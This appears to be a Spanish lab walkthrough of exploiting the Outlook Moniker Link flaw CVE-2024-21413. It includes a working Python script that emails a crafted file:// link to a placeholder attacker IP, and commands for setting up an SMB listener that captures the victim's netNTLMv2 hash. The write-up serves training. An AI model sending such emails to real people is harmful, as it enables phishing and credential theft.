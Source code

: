 Para este ataque, mandaremos un email a nuestra víctima con un Moniker Link similar al visto en la lección anterior. El objetivo, como atacante, es hacer un email con un link moniker que bypassee la vista protegida de Outlook. donde el cliente de la víctima intente cargar un archivo de nuestra máquina de atacante, resultando en la captura del hash netNTLMv2.

Pero antes de comenzar, veremos una prueba de concepto.

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 119/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' #Reemplazar con el email del emisor
receiver_email = 'victim@monikerlink.thm' #Reemplazar con el email del receptor
password = input("Introduce la contraseña del email atacante: ")
html_content = """\
<!DOCTYPE html>
<html lang="es">
	<body>
		<p>Haz click<a href="file://IP_ATACANTE/test!exploit">aquí</a></p>
	</body>
</html>
"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

#Convierte la string HTML a bytes y lo adjunta al objeto del mensaje
msgHtml = MIMEText(html_content, 'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
	server.login(sender_email, password)
except Exception as err:
	print(err)
	exit(-1)

try:
	server.sendmail(sender_email, [receiver_email], message.as_string())
	print("\n Email delivered")
except Exception as error:
	print(error)
finally:
	server.quit()
```

Lo que hace:

- Coge el email del atacante y de la víctima.
- Pide la contraseña para autentificar.
- Contiene el contenido del email (html_content), que contiene el link moniker.
- Rellena los campos Asunto, De y Para.
- Finalmente manda el email

Vamos a usar Responder para crear un escuchador SMB en nuestra máquina atacante. Para la AttackBox THM, la interfaz será `-I ens5`. El nombre de la interfaz cambiará si lo hacemos en nuestro propio dispositivo.

Abrimos la máquina virtual vía RDP con las credenciales correspondientes:

`xfreerdp3 /u:<usuario> /p:<contraseña> /v:<IP>`

Abrimos Outlook en el escritorio remoto. Una vez abierto hacemos click en "No quiero iniciar sesión o crear una cuenta".

En el segundo pop up le damos a la "X" para salir.

En la siguiente ventana veremos la interfaz de Outlook de la víctima, que ya ha sido configurada.

Copiamos y pegamos el código de la PoC (Proof of Concept) en la máquina atacante.

Necesitaremos hacer un par de cambios en el documento antes de ejecutarlo:

- Cambiar la IP del atacante en la linea 12 a nuestra IP atacante.
- Cambiar el placeholder de MAILSERVER en la linea 31 con la IP de la víctima.

Cuando nos pregunten por la contraseña del correo atacante introducimos `attacker`.

Al hacer esto nos debe llegar un correo con un enlace.

Si en la máquina atacante preparamos un impacket (porque responder no funciona bien en nuestra kali), con: `sudo impacket-smbserver test /home/user/smbshare -smb2support -port 1445`. Al hacer click en el enlace nos aparecerá el nombre de usuario y el hash de autentificación.